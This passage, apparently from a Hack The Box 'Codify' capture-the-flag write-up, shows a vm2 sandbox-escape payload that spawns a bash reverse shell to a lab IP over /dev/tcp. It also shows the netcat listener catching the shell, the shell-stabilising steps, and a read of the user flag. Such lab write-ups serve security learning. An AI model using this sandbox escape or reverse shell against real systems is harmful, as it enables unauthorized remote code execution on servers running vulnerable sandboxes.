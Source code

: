 ```bash
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync( 'bash -c "bash -i >& /dev/tcp/10.10.16.30/1111 0>&1"');
}
`

console.log(vm.run(code));
```

> http://10.129.48.58:3000/editor

![](/assets/obsidian/64f5fd0be75e71d234639306b0490240.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Codify]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.30] from (UNKNOWN) [10.129.48.58] 50848
bash: cannot set terminal process group (1236): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@codify:~$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Codify]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

svc@codify:~$ export TERM=xterm
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ cat user.txt
```